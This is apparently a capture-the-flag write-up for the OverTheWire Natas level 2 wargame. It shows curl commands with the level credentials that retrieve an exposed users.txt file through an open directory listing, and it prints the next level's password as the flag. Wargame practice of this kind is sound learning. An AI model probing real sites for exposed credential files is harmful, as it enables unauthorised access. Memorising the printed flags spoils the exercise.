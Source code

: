 ```yaml
---
layout: level
level: 2
previous: ./level 01.html
next: ./level 03.html
---
```


# soal
Username: natas2
URL:      http://natas2.natas.labs.overthewire.org

# solve
- login with cred natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
- inspect the web, view-source:<url>, or curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # <div id="content">
    # There is nothing on this page
    # <img src="files/pixel.png">
    # </div>
    ```
- in this, have the directory listing /files
    ![alt text](docs/images/image-1.png)
    ![alt text](docs/images/image-2.png)
- if ur curl
    ```bash
    curl http://natas2.natas.labs.overthewire.org/files/users.txt -u natas2:TguMNxKo1DSa1tujBLuZJnDUlCcUAPlI
    # username:password
    # alice:BYNdCesZqW
    # bob:jw2ueICLvT
    # charlie:G5vCxkVV3m
    # natas3:3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH
    # eve:zo4mJWyNj2
    # mallory:9urtcpzBmH
    ```

# flag
3gqisGdR0pjm6tpkDKdIWO2hSvchLeYH